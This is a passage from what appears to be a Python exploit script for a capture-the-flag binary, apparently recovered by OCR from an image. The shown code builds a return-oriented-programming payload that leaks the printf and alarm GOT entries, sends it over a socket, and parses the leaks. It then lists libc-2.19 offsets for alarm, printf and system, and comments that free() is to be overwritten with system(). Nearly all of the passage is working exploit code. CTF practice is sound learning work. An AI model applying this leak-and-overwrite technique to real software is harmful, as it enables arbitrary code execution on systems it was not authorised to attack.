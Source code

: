     	p = ''
    	p += 'k'*8 + '\n' + 'P'*16 						# padding

    	p += rop_leak(0x602030) 						# leak .got.printf()
    	p += rop_leak(0x602038) 						# leak .got.alarm()

    	# ... you can repeat this ROP as many times as you want


    	# -------------------------------------------------------------------------
    	# After leak, we have to read the returned addresses, recalculate addresses
    	# and overwrite free() with system()
    	# -------------------------------------------------------------------------
    	p += pack('<Q', 0x4141414141414141)				# set rbp
    	p += pack('<Q', 0x0000000000400C4E) 			# return to main


    	s.send( p + '\n')								# send ROP payload

    	# -------------------------------------------------------------------------
    	# at this point program will wait for Choice
    	# because read_raw_input_40085D is called instead of atoi(), we should
    	# give an input for K characters if we want option K
    	# -------------------------------------------------------------------------
    	print '[+] Parsing leaked addresses...'

    	f.read(len('Not allow~!\n'))

    	addr_printf = get_leak()
    	addr_alarm  = get_leak()

    	'''
    	root@xrysa:~/ctf/alictf# readelf --all libc-2.19.so | grep -e " alarm"
    	  1333: 00000000000c0b90    33 FUNC    GLOBAL DEFAULT   12 alarm@@GLIBC_2.2.5
    	root@xrysa:~/ctf/alictf# readelf --all libc-2.19.so | grep -e " printf"
    	   596: 0000000000054340   161 FUNC    GLOBAL DEFAULT   12 printf@@GLIBC_2.2.5
    	root@xrysa:~/ctf/alictf# readelf --all libc-2.19.so | grep -e " system"
    	  1337: 0000000000046590    45 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.2.5
    	root@xrysa:~/ctf/alictf#
    	'''
    	base_alarm  = 0x00000000000c0b90
    	base_printf = 0x0000000000054340
    	base_system = 0x0000000000046590
